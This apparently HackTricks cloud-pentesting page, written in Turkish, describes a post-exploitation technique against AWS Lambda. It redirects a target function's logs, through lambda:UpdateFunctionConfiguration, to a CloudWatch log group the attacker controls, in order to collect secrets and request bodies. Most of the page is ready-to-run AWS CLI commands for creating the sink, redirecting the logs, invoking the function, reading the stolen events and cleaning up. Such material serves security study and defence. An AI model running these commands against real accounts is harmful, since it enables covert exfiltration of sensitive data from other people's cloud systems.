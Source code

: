 # AWS Lambda – Log Siphon ile LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

Bir fonksiyonun loglarını, saldırganın seçtiği bir CloudWatch Logs log group'a yönlendirmek için `lambda:UpdateFunctionConfiguration` gelişmiş logging kontrollerini kötüye kullanın. Bu, kodu veya execution role'u değiştirmeden çalışır (çoğu Lambda rolü zaten `AWSLambdaBasicExecutionRole` üzerinden `logs:CreateLogGroup/CreateLogStream/PutLogEvents` içerir). Eğer fonksiyon secrets/request bodies yazdırıyorsa veya stack traces ile çöküyorsa, bunları yeni log group'tan toplayabilirsiniz.

## Gerekli izinler
- `lambda:UpdateFunctionConfiguration`
- `lambda:GetFunctionConfiguration`
- `lambda:InvokeFunction` (veya mevcut tetikleyicilere güvenin)
- `logs:CreateLogGroup` (çoğu zaman fonksiyon rolü bunu içeriyorsa gerekli değildir)
- `logs:FilterLogEvents` (olayları okumak için)

## Adımlar
1) Bir sink log group oluşturun
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) Hedef fonksiyon loglarını yönlendir
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
`LastUpdateStatus` `Successful` olana kadar bekleyin:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) sink'i çağırın ve sink'ten okuyun
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## Etki
- Gizlice tüm uygulama/sistem loglarını kontrolünüzdeki bir log grubuna yönlendirerek, logların yalnızca `/aws/lambda/<fn>` içine düşeceği beklentisini atlatmak.
- Exfiltrate işlev tarafından yazdırılan veya hatalarda ortaya çıkan hassas verileri.

## Temizlik
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## Notlar
- Logging kontrolleri Lambda’s `LoggingConfig` (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel) parçasıdır.
- Varsayılan olarak, Lambda logları `/aws/lambda/<function>` konumuna gönderir, ancak herhangi bir log group ismine yönlendirebilirsiniz; Lambda (veya execution role) izin veriyorsa bunu oluşturur.

{{#include ../../../../banners/hacktricks-training.md}}
